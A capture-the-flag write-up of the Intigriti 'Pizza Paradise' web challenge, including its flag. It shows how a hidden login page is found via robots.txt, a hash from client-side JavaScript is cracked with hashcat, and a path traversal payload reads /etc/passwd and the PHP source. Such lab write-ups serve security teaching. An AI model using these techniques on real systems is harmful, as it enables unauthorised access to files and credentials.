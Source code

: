 # Pizza Paradise [395 Solves]

## Description

> Something weird going on at this pizza store!!
>
> `https://pizzaparadise.ctf.intigriti.io`

No attachment.

## Flag

INTIGRITI{70p_53cr37_m15510n_c0mpl373}

## Solution

In robots.txt, `/secret_172346606e1d24062e891d537e917a90.html` is found.

```console
$ curl https://pizzaparadise.ctf.intigriti.io/robots.txt
User-agent: *
Disallow: /secret_172346606e1d24062e891d537e917a90.html
Disallow: /assets/
```

The `/secret_172346606e1d24062e891d537e917a90.html` URL path is a login page.

![top_secret_government_access](img/top_secret_government_access.png)

The page has an /assets/js/auth.js JavaScript.

```javascript
// /assets/js/auth.js
const validUsername = "agent_1337";
const validPasswordHash = "91a915b6bdcfb47045859288a9e2bd651af246f07a083f11958550056bed8eac";

function getCredentials() {
    return {
        username: validUsername,
        passwordHash: validPasswordHash,
    };
}
```

The validPasswordHash can be cracked.

```console
$ hashcat -m 1400 --quiet $HASH /usr/share/wordlists/rockyou.txt
91a915b6bdcfb47045859288a9e2bd651af246f07a083f11958550056bed8eac:intel420
```

Login the page with `agent_1337:intel420` credential, it redirects to `/topsecret_a9aedc6c39f654e55275ad8e65e316b3.php`.

![welcome_to_the_top_secret_government_portal.png](img/welcome_to_the_top_secret_government_portal.png)

Clicked Download button, a request to `/topsecret_a9aedc6c39f654e55275ad8e65e316b3.php?download=%2Fassets%2Fimages%2Ftopsecret2.png` started.
The `download` query parameter is used and the file is downloaded by file path so it seems that it has Path Traversal vulnerability.

After some trial and error, /etc/passwd could be downloaded.

```console
$ curl -G https://pizzaparadise.ctf.intigriti.io/topsecret_a9aedc6c39f654e55275ad8e65e316b3.php --data-urlencode 'download=/assets/images/../../../../../etc/passwd'
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
```

Downloaded topsecret_a9aedc6c39f654e55275ad8e65e316b3.php file, I can get the flag.

```console
$ curl -G https://pizzaparadise.ctf.intigriti.io/topsecret_a9aedc6c39f654e55275ad8e65e316b3.php --data-urlencode 'download=/assets/images/../../topsecret_a9aedc6c39f654e55275ad8e65e316b3.php'
<?php

$flag = 'INTIGRITI{70p_53cr37_m15510n_c0mpl373}';

(snip)
```
